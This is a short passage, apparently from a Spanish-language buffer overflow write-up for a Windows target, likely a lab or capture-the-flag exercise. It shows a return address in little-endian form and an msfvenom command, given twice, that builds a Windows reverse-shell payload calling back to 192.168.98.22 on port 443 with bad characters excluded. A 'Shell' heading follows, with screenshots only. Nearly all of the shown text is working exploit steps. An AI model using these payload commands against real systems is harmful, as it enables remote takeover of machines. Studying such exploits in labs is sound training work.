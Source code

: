 
![20240228183738.png](20240228183738.png)

```php
625011AF
```


```php
 \xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x8c\xae\xbe\xfb" -f c
```

```php
❯  msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x8c\xae\xbe\xfb" -f c

```

![20240228185258.png](20240228185258.png)
## Shell

![20240228185234.png](20240228185234.png)
